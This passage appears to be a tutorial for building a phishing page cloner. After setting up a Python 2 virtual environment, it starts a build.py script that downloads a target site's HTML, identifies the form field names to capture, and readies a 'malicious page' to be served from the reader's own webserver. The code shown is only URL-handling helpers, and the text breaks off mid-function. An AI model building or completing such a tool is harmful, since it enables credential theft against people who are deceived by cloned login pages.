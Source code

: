```console
    [waz@localhost]# virtualenv -p python2 env/
    [waz@localhost]# python
    Python 2.7.18 (default, Jul  1 2022, 10:30:50) 
    [GCC 11.2.0] on linux2
    Type "help", "copyright", "credits" or "license" for more information.
    
```
Do not run these two linux commands as sudo or as root because that will mean that everytime you will want to run it you'll have to escalate your privileges and that also brings up a whole set of new problems to deal with once you'll want the webserver or the proxy to read or execute certain files. The deploy user does not have sudo privileges if you've configured things properly so you'll run into a roadblock by creating a virtual environment as root.

You should now have an env folder with your newly created environment. In order to use it run the following command

```console
    [waz@localhost]# source env/bin/activate
```

You are now in a "containerized" version of python that is totally independent of the rest of your system which means it can have its own lifecycle, upgrades, downgrades without having any spillover effects on other projects.

```console
    [waz@localhost]# nano build.py
```

This next couple of lines will create a command line script that downloads the html page that you specify as command line arguments and parses through the page to identify the form field names you'll want to capture. Once the build process is done all that is left to do is to serve this malicious page to your webserver

```python
import sys
import os
import shutil
import urllib2

from bs4 import BeautifulSoup


def relative_root(url):
    if '?' in url:
        url = url[:url.find('?')]
    if url.count('/') == 2:
        return url + '/'
    else:
        return url[:url.rfind('/')] + '/'


def absolute_root(url):
    if '?' in url:
        url = url[:url.find('?')]
    if url.count('/') == 2:
        return url
    else:
        return url[:url.find('/',8)]


def relative_to_absolute(url, link):
    if link.startswith('http://') or link.startswith('https://') or link.startswith('data:'):
        # already absolute, skipping
        return link
    if link.startswith('//'):
        # just add protocol
        link = 'http:' + link
```